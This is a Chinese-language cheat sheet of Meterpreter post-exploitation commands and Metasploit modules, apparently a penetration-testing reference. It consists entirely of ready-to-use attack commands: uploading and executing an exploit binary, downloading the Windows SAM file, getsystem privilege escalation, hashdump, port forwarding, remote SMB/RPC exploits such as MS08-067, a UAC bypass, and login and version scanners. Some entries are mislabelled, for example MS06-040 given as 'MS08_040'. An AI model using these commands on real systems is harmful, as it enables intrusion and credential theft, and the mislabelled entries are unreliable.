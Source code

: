 ## Meterpreter速查表

有用的meterpreter 命令。

| 命令 | 解释 |
| :--- | :--- |
| `upload file c:\\windows` | Meterpreter上传文件到 Windows 目标 |
| `download c:\\windows\\repair\\sam /tmp` | Meterpreter 从 Windows 目标下载文件 |
| `execute -f c:\\windows\temp\exploit.exe` | Meterpreter 在目标机器上执行.exe文件——用来执行上传的exp很方便 |
| `execute -f cmd -c` | 创建新的cmd shell通道 |
| `ps` | Meterpreter显示进程 |
| `shell` | Meterpreter获取目标shell |
| `getsystem` | Meterpreter尝试提权 |
| `hashdump` | Meterpreter尝试导出目标机器上的哈希 |
| `portfwd add –l 3389 –p 3389 –r target` | Meterpreter端口转发 |
| `portfwd delete –l 3389 –p 3389 –r target` | Meterpreter删除端口转发 |

## 常用Metasploit 模块

最常用的metasploit 模块。

### 远程Windows Metasploit 模块\(exploits\)

| 命令 | 解释 |
| :--- | :--- |
| `use exploit/windows/smb/ms08_067_netapi` | MS08\_067 Windows 2k, XP, 2003 远程攻击 |
| `use exploit/windows/dcerpc/ms06_040_netapi` | MS08\_040 Windows NT, 2k, XP, 2003 远程攻击 |
| `use exploit/windows/smb/ms09_050_smb2_negotiate_func_index` | MS09\_050 Windows Vista SP1/SP2 和Server 2008 \(x86\) 远程攻击 |

### 本地Windows Metasploit 模块\(exploits\)

| 命令 | 解释 |
| :--- | :--- |
| `use exploit/windows/local/bypassuac` | 绕过 Windows 7 上的UAC |

### 辅助Metasploit 模块

| 命令 | 解释 |
| :--- | :--- |
| `use auxiliary/scanner/http/dir_scanner` | Metasploit HTTP 目录扫描 |
| `use auxiliary/scanner/http/jboss_vulnscan` | Metasploit JBOSS 漏扫 |
| `use auxiliary/scanner/mssql/mssql_login` | Metasploit MSSQL 认证扫描 |
| `use auxiliary/scanner/mysql/mysql_version` | Metasploit MSSQL 版本扫描 |
| `use auxiliary/scanner/oracle/oracle_login` | Metasploit Oracle 登陆模块 |
